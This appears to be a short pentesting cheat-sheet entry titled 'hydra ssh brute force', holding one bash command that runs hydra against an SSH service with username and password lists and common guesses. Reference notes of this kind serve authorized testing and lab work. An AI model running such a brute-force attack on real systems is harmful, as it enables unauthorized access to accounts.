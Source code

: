 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

# Related


Tags:

    
